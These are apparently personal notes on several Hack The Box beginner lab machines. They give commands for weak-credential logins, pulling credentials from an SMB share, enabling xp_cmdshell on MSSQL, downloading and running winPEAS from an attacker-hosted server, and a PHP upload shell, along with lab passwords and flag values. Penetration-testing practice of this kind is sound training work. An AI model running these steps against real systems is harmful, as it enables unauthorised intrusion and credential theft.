

Explosion::
    xfreerdp:
        + /cert:ignore
        + /u:Administrator
        + /v:<ip>

Preignition::
    dirbuster:
        + admin.php Creds: admin:admin

Ignition::
    curl:
        + curl -v http://<ip>
    

Archetype:
+ smbclient - smbclient \\\\10.129.95.187\\backups
+ more prod.dtsConfig :: Password=M3g4c0rp123;User ID=ARCHETYPE/sql_svc
+ foothold :: python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.95.187 -windows-auth
+ SQL> ! cat /etc/passwd ##Works but need a shell::
+ SQL> EXEC xp_cmdshell 'net user'; ##Searc for 'xp_cmdshell' in SQL server books online.
+ How to fix::
        1) SQL> EXEC sp_configure 'show advanced options', 1;
        2) SQL> RECONFIGURE;
        3) SQL> sp_configure;  ##Enabling the sp_configure as stated in the above error message
        4) SQL> EXEC sp_configure 'xp_cmdshell', 1;
        5) SQL> RECONFIGURE;
        6) SQL> xp_cmdshell "whoami" :: archetype\sql_svc

+ python3 -m http.server 8081
+ upload winpeas.exe
+ C:\Windows\system32\cmd.exe" /c "powershell -c cd C:/Users/sql_svc/Downloads; wget http://10.10.16.135:8081/winPEASx64.exe -outfile winP.exe; ./winP.exe
+ See 
+ creds:: net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
+ user: smb: \Users\sql_svc\Desktop user.txt :: 3e7b102e78218e935bf3f4951fec21a3
+ root: smb: \Users\Administrator\Desktop\ root.txt :: b91ccec3305e98240082d4474b848528
#https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server
#https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

Oopsie::
finding accounts:
+http://<domain>/(cdn-cgi)/login/admin.php?content=accounts&id=1

after upload of .php file::
    sudo gobuster dir -u http://<domain> --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -q | grep "Status: 200"
        + /uploads/ :: visit name of file with listener shell.
user:: f2c74ee8db7983851ab2a96a44eb7981
root::